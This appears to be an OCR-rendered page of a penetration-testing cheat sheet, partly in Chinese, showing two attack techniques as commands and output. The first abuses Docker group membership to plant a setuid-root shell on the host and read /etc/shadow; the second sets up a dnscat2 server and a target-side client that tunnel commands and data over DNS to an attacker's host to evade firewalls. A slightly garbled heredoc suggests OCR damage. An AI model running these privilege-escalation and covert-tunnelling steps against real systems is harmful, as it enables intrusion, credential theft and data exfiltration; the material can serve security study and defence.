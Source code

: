 ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)

ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test

ek@victum:~$ cat > Dockerfile
FROM debian:wheezy

ENV WORKDIR /stuff

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
<< EOF

ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root

ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
```
使用 DNS 隧道绕过防火墙
```
# 让数据和命令使用 DNS 隧道传输以绕过防火墙的检查
# dnscat2 支持从目标主机上面上传和下载命令来获取文件、数据和程序

# 服务器 (攻击者)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059

# 客户机 (目标)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host <dnscat server_ip>
